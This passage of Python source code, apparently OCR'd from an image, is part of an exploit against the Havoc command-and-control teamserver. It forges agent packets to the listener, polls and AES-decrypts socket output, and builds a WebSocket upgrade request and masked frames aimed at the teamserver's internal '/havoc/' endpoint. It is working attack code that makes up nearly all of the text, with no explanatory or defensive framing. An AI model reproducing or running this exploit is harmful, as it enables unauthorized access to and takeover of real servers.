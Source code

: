 ```
    else:
        print(f"[!!!] Failed to write data to the socket - {r.status_code} {r.text}")


def read_socket(socket_id):
    # COMMAND_GET_JOB / 1
    command = b"\x00\x00\x00\x01"
    request_id = b"\x00\x00\x00\x09"

    header_data = command + request_id

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    data = agent_header + header_data


    print("[***] Trying to poll teamserver for socket output...")
    r = requests.post(teamserver_listener_url, data=data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Read socket output successfully!")
    else:
        print(f"[!!!] Failed to read socket output - {r.status_code} {r.text}")
        return ""


    command_id = int.from_bytes(r.content[0:4], "little")
    request_id = int.from_bytes(r.content[4:8], "little")
    package_size = int.from_bytes(r.content[8:12], "little")
    enc_package = r.content[12:]

    return decrypt(AES_Key, AES_IV, enc_package)[12:]

def make_request(host, port):
    request = (
        f"GET /havoc/ HTTP/1.1\r\n"
        f"Host: {host}:{port}\r\n"
        f"Upgrade: websocket\r\n"
        f"Connection: Upgrade\r\n"
        f"Sec-WebSocket-Key: 5NUvQyzkv9bpu376gKd2Lg==\r\n"
        f"Sec-WebSocket-Version: 13\r\n"
        f"\r\n"
    ).encode()
    return request

def frame_generator(payload):
    if not isinstance(payload, str):
        raise ValueError("Payload must be a string")

    payload_bytes = payload.encode("utf-8")
    frame = bytearray()
    frame.append(0x81)  # FIN + Text frame opcode

    payload_length = len(payload_bytes)

    if payload_length <= 125:
        frame.append(0x80 | payload_length)  # Set masking bit
    elif payload_length <= 65535:
        frame.append(0x80 | 126)  # Set masking bit for extended payload
        frame.extend(struct.pack('!H', payload_length))
    else:
        frame.append(0x80 | 127)
        frame.extend(struct.pack('!Q', payload_length))
```